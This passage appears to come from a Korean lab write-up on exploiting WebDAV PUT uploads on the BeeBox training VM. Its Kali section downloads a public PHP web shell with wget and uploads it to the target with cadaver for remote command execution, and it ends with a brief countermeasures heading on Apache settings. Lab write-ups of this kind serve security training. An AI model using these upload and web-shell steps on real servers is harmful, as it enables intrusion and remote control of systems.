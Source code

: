 GET -> PUT으로 변경

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211109235812953.png" alt="image-20211109235812953" style="zoom:57%;" />

- 내용 "<h1>Eonion</h1>"인 파일 업로드하기 위해 intecept off

<br>

### BurpSuite - 3

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211110000106525.png" alt="image-20211110000106525" style="zoom:78%;" />

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211015013254384.png" alt="image-20211015013254384" style="zoom:80%;" />

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211110000209135.png" alt="image-20211110000209135" style="zoom:105%;" />

- PUT 메서드를 통해 웹 서버에 파일 업로드 가능

<br>

<br>

## Kali

### kali - 1

칼리를 이용해 악의적인 파일 업로드 해보자

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211110000329590.png" alt="image-20211110000329590" style="zoom:68%;" />

- Kali > wget [https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP%20Shell.php](https://raw.githubusercontent.com/Wphackedhelp/php-webshells/master/PHP Shell.php) - 코드 다운로드
- Kali >  cadaver http://비박스IP/webdav/ - 'Webdav' 클라이언트인 'cadaver' 사용
- dav:/webdav/ > put 'PHP Shell.php' 

<br>

### Kali - 2

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211110000439457.png" alt="image-20211110000439457" style="zoom:80%;" />

- 웹 쉘을 통해 서버에 명령 수행 가능

<br>

<br>

## 대응방안 

### BeeBox

아파치 설정 파일

<img src="https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20211110000639656.png" alt="image-20211110000639656" style="zoom:69%;" />

